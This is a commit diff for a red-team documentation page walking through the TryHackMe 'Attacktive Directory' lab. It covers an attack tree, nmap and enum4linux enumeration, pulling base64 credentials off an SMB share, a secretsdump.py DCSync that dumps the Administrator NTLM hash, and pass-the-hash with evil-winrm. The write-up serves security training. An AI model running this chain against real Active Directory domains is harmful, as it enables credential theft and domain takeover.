

Before and after one commit to tymyrddin/red-network, a Sphinx documentation site: the page built from source/docs/ad/attacktive.md, in a window 1280 px wide and 1400 px high, scrolled down 2112 px. Shown: the whole window at 82% size. Built offline with Sphinx 7.4.7 and the Read the Docs theme 2.0.0, drawn with Linux system fonts in a browser that asks for light colours; some of the changed text lies outside the part shown.

````diff
--- a/source/docs/ad/attacktive.md
+++ b/source/docs/ad/attacktive.md
@@ -3,20 +3,36 @@
 ## Attack tree
 
 ```text
-
+1 Discovery
+    1.1 Scan ports
+    1.2 Enumerate 139/445
+2 Enumerate DC users via kerberos (AND)
+3 Exploit Kerberos
+    3.1 Query a ticket from users (if possible) (AND)
+    3.2 Crack the hash
+4 Enumerate the DC further
+    4.1 Map remote SMB shares
+    4.2 Search for files with information for further escalation
+    4.3 Decode if necessary
+5 Elevate privileges within the domain
+    5.1 Dump ntds.dit
+    5.2 Get administrators NTLM hash
+    5.3 Pass the hash with Evil-WinRM
 ```
 
 ## Example
 
-### Scanning
+### Discovery
+
+#### Scan with nmap
 
     # nmap -sV -sC -T4 <IP address target>
 
-### Enumerate the DC with enum4linux
+#### Enumerate 139/445
 
     # enum4linux <IP address target>
 
-### Enumerate the DC with Kerbrute
+## Enumerate the DC
 
 Add the following line to `/etc/hosts` file:
 
@@ -53,7 +69,7 @@ Connect to the share using smbclient:
 ```text
 smbclient '\\spookysec.local\backup' -U svc-admin
 smb: \> ls
-smb: \>mget backup_credentials.txt
+smb: \> mget backup_credentials.txt
 exit
 ```
 
@@ -92,18 +108,31 @@ Get them backup credentials:
 It contains base64 encoded credentials. Decoding the base64 string reveals the credentials:
 
     $ echo "YmFja3VwQHNwb29reXNlYy5sb2NhbDpiYWNrdXAyNTE3ODYw" | base64 -d
-    [email protected]:backup2517860
+    [...]:backup2517860
 
-Rretrieve all password hashes that this user account (which is synced with the domain controller) has to offer.
-Exploiting this, we will have full control over the AD Domain.
+Now that we have new user account credentials, we may have more privileges on the system than before.
+The username of the account "backup" indicated it is the backup account for the Domain Controller.
+This account has a unique permission that allows all Active Directory changes to be synced with this user account.
+This includes password hashes.
+
+### Elevate privileges within the domain
+
+Retrieve all password hashes that this user account (which is synced with the domain controller) has to offer.
+Exploiting this, we may have full control over the AD Domain.
 
     $ python secretsdump.py spookysec.local/backup:FOUNDPASSWORDHERE@spookysec.local -just-dc-user Administrator
+    ...
+    [-] RemoteOperations failed: DCERPC Runtime Error: code: 0x5 - rpc_s_access_denied
+    [*] Dumping Domain Credentials (domain\uid:rid:lmhash:nthash)
+    [*] Using the DRSUAPI method to get NTDS.DIT secrets
+    Administrator:500:aad3b435b51404eeaad3b435b51404ee:e4876a80a723612986d7609aa5ebc12b:::
+    ...
 
-Pass the Hash with Evil-WinRM:
+Pass the Administrators NTLM hash with Evil-WinRM:
 
-    $ evil-winrm -i <IP target machine> -u Administrator -H THEFOUNDHASH
+    $ evil-winrm -i <IP target machine> -u Administrator -H <Administrators NTLM hash>
 
-All flags are in the users desktops. The Administrator account has got acces to all.
+If on TryHackMe target, all flags are in the users desktops. The Administrator account has got acces to all.
 
 ## Tools
 
````
Also changed, not shown: other parts of source/docs/ad/attacktive.md (+1 -1 lines), source/docs/ad/vulns.md (+20 -20 lines).
